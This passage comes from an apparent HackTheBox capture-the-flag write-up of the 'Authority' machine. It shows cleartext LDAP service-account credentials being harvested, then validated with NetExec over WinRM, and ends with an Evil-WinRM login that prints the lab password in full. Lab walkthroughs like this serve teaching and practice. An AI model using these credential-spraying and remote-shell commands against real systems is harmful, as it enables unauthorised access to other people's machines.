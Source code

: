 ![image.png](/assets/images/Authority_HTB/image%2014.png)

After clicking the **TEST LDAP PROFILE.** We got a hit back with the clear text credentials for the svc_ldap account.

### Shell as svc_ldap

Saving those creds to the passwords.txt file.

We can confirm that those are valid for svc_ldap by using NetExec.

```bash
nxc winrm authority.htb -u usernames.txt -p 'lDaP_1n_th3_cle4r!' --continue-on-success
```

![image.png](/assets/images/Authority_HTB/image%2015.png)

We have valid creds but over LDAPS.

Checking the winrm permissions.

```bash
nxc winrm authority.htb -u 'svc_ldap' -p 'lDaP_1n_th3_cle4r!'
```

![image.png](/assets/images/Authority_HTB/image%2016.png)

Logging in using **Evil-Winrm.**

```bash
evil-winrm -i authority.htb -u svc_ldap -p 'lDaP_1n_th3_cle4r!'
```

![image.png](/assets/images/Authority_HTB/image%2017.png)
